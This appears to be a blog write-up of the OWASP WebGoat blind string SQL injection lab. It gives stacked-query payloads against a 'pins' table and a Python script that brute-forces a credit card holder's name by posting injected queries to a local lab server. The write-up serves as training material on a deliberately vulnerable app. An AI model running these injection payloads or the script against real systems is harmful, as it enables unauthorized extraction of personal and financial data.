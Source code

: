 ```yaml
---
layout: post
title:  "OWASP BWA WebGoat Challenge: Injection Flaws"
subtitle: "Blind SQL Injection (String)"
date:   2017-01-30 07:00:00 -0500
author: "coastal"
header-img: "images/site-resources/webgoat-header.jpg"
---
```

# Blind String SQL Injection 
Instructions:

- The form below allows a user to enter an account number and determine if it is valid or not. Use this form to develop a true / false test check other entries in the database.
- Reference Ascii Values: 'A' = 65 'Z' = 90 'a' = 97 'z' = 122
- The goal is to find the value of the field name in table pins for the row with the cc_number of 4321432143214321. The field is of type varchar, which is a string.
- Put the discovered name in the form to pass the lesson. Only the discovered name should be put into the form field, paying close attention to the spelling and capitalization.

Building off of the last challenge for Blind Numeric SQL Injection, let's design a request to find the name of the owner of credit card ```4321432143214321```. Let's check out our first request again:

```
account_number=101&SUBMIT=Go%21
```
Alright, same as before. Let's try to append our blind query onto that request now:

```
101;select * from pins where cc_number = 4321432143214321--
```

And let's add our brute-force section:

```
101;select * from pins where cc_number = 4321432143214321 and name = x--
```

The problem with this is that we don't know how long the name is. Additionally, compared to with numbers, the amount of guesses that are required to brute-force a string of the same length is 45-fold at only 4 characters, and 118-fold at 5 characters (and that is assuming they used no capitals or a leading capital letter in their name):

```
26**4 / 10**4 = 45
26**5 / 10**5 = 118
```

So clearly we have a huge entropy issue. How can we cut this down to an attainable level? Because my laptop certainly doesn't have the NSA's brute-force power. I found the answer, again, in wordlists. With a quick [google search][crackers-namelist] I was able to find a pretty substantial wordlist of common names. Now let's modify our wordlist brute-force script into a Blind String SQL Injection machine:

{% highlight python %}
import sys
import requests

wordlist_paths = [
	"another-long-path/names.txt",
]


def main():
	namelist = []
	print "[+] Populating the namelist ..."
	for wordlist_path in wordlist_paths:
		print "	[*] Populating from list: {}".format(wordlist_path.split("/")[-1])
		with open(wordlist_path, "r") as wordlist_file:
			word_data = wordlist_file.read()
			namelist += word_data.splitlines()
	print "	[*] Checking that wordlist was populated"
	if  len(namelist) == 0:
		print "[-] Wordlist was not populated... Exiting"
		sys.exit(1)
	print "[+] Wordlist populated successfully"

	headers = {
		"user-agent":"Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:50.0) Gecko/20100101 Firefox/50.0"
	}
	cookies = dict(JSESSIONID="9807FE50B02B2B1D50B8113FFB60D0DC",acopendivids="swingset,jotto,phpbb2,redmine",acgroupswithpersist="nada")

	for index,name in enumerate(namelist):
		capitalized_name = name[0].upper() + name[1:]
		print ("[*] Attempt {} | Name: {}".format(index, capitalized_name))
		attempt = "101;select * from pins where cc_number = 4321432143214321 and name = {}--".format(capitalized_name)
		payload= {"account_number":attempt,"SUBMIT":"Go%21"}
		r = requests.post("http://192.168.56.101/WebGoat/attack?Screen=13&menu=1100", params=payload, headers=headers, cookies=cookies)
		if r.status_code == 200:
			if "account number is valid" in r.text.lower():
				print ("[+] SUCCESS! Name is: {}".format(capitalized_name))
				sys.exit(0)
		else:
			print ("error: {}".format(r.text))
			sys.exit(1)

main()
{% endhighlight %}

Awesome, let's give it a run!

<img src="{{ site.baseurl }}/images/2017-01-30-webgoat_part_15/brute-string-failure.jpg">

Oh man...That's a bummer. Now it could be a few things causing this failure, one of which would be a non-comprehensive wordlist. Somehow I decided this was probably not the case though. I didn't think that the capitalization would be on any letter but the first, as all previous challenges did not have that pattern. I thought that the most likely source of failure was the formatting of the SQLi statement. Looking it over, I realized that I had not string-escaped our ```name``` guesses! Let's change that and cross our fingers...

```
101;select * from pins where cc_number = 4321432143214321 and name = 'x'--
```

<img src="{{ site.baseurl }}/images/2017-01-30-webgoat_part_15/brute-string-success.jpg">

<img src="{{ site.baseurl }}/images/2017-01-30-webgoat_part_15/challenge-success.jpg">

Awesome! Wordlists and Python strike again.

### References

[1. Cracker's Namelist][crackers-namelist]

[crackers-namelist]:http://www.outpost9.com/files/wordlists.html

#### Final SQLi Bruteforce Script:

{% highlight python %}
import sys
import requests

wordlist_paths = [
	"another-long-path/names.txt",
]


def main():
	namelist = []
	print "[+] Populating the namelist ..."
	for wordlist_path in wordlist_paths:
		print "	[*] Populating from list: {}".format(wordlist_path.split("/")[-1])
		with open(wordlist_path, "r") as wordlist_file:
			word_data = wordlist_file.read()
			namelist += word_data.splitlines()
	print "	[*] Checking that wordlist was populated"
	if  len(namelist) == 0:
		print "[-] Wordlist was not populated... Exiting"
		sys.exit(1)
	print "[+] Wordlist populated successfully"

	headers = {
		"user-agent":"Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:50.0) Gecko/20100101 Firefox/50.0"
	}
	cookies = dict(JSESSIONID="9807FE50B02B2B1D50B8113FFB60D0DC",acopendivids="swingset,jotto,phpbb2,redmine",acgroupswithpersist="nada")

	for index,name in enumerate(namelist):
		capitalized_name = name[0].upper() + name[1:]
		print ("[*] Attempt {} | Name: {}".format(index, capitalized_name))
		attempt = "101;select * from pins where cc_number = 4321432143214321 and name = '{}'--".format(capitalized_name)
		payload= {"account_number":attempt,"SUBMIT":"Go%21"}
		r = requests.post("http://192.168.56.101/WebGoat/attack?Screen=13&menu=1100", params=payload, headers=headers, cookies=cookies)
		if r.status_code == 200:
			if "account number is valid" in r.text.lower():
				print ("[+] SUCCESS! Name is: {}".format(capitalized_name))
				sys.exit(0)
		else:
			print ("error: {}".format(r.text))
			sys.exit(1)

main()
{% endhighlight %}